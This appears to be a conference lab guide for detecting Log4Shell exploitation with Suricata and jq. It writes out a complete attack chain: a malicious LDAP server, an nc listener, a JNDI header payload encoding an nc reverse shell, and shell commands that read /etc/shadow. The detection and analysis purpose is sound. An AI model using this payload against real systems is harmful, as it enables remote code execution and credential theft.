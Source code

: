 # Suricon - Log4j Analysis
This is a quick-reference guide for the commands shown at Suricon 2022 including some additional filtering with jq.

Setup Suricata and tcpdump
```bash
screen -S suricata
sudo suricata -S ~/lab/emerging-threats-log4j.rules -l ~/lab -i eth0

screen -S tcpdump
sudo tcpdump -nn 'not port 22 and not port 443' -w analysis.pcap 
```

Setup LDAP Server and nc listener
```bash
screen -S ldap
sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 oofles/log4shell-ldap-server

screen -S nc
nc -lvp 7777
```

Send payload
```bash
curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/bmMgLW52IDE3Mi4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'
```

Run some commands in reverse shell
```bash
uname -a
whoami
env
cat /etc/passwd
cat /etc/shadow
```

Stop both Suricata and tcpdump

fast.log analysis
```bash
cat fast.log | wc -l
less -S fast.log
```

General analysis
```bash
cat eve.json | jq .event_type | sort | uniq -c | sort

cat eve.json | jq 'select(.event_type == "flow") | select(.src_ip == "172.31.24.10")'

cat eve.json | jq 'select(.event_type == "http") | select(.src_ip == "172.31.24.10")'

cat eve.json | jq 'select(.event_type == "flow") | select(.dest_ip == "172.31.24.10")'

cat eve.json | jq 'select(.event_type == "flow") | select(.dest_ip == "172.31.24.10") | .dest_port'
```

File analysis
```bash
cat eve.json | jq 'select(.event_type == "fileinfo") | select(.dest_ip == "172.31.24.20")'
```

